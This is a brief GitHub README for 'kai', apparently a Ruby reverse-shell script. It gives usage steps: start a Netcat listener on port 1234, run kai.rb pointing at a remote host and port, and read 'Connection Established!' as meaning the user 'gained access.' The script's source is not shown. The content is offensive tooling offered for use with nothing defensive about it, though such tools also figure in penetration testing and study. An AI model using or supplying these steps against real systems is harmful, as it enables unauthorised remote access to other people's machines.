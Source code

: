 ## kai

![Screenshot from 2023-07-17 19-00-16](https://github.com/BrainDisassembly/kai/assets/69394316/77bc285c-0174-4adc-8a8c-82aea0dff4f9)

##

## Dependencies

**In order for the script to work you need to have Ruby installed on the system.**  

**1. Fire up Netcat for incoming connections. `$ nc -lvp 1234`**  
**2. Run Kai. `$ ./kai.rb --remote-host 192.168.1.109 --port-remote 1234`**  
**3. If you get this message `Status: Connection Established!` it means you gained access.**  

![Ruby](https://img.shields.io/badge/Ruby-CC342D?style=for-the-badge&logo=ruby&logoColor=white/)
